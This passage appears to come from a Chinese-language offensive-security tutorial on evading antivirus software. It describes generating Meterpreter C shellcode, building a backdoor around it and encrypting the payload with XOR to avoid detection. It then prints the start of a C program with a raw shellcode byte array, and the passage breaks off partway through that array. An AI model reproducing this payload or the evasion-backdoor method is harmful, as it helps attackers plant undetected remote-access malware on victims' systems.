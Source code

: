 我们看到各种 AV 解决方案的检测率如何影响我们的任务。我们可以使用`meterpreter`的 shellcode 方法来规避 AV。我们将生成 C shellcode，自己编写后门的其余部分。让我们生成 shellcode 如下：

![](img/00086.jpeg)

让我们快速看一下 shellcode，如下所示：

![](img/00148.jpeg)

# 加密 shellcode

我们可以看到我们生成了 shellcode。我们将快速编写一个程序，使用`XOR`加密现有的 shellcode，如下所示：

```
#include <Windows.h>
#include <iostream>
#include <iomanip>
#include <conio.h>
unsigned char shellcode[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
```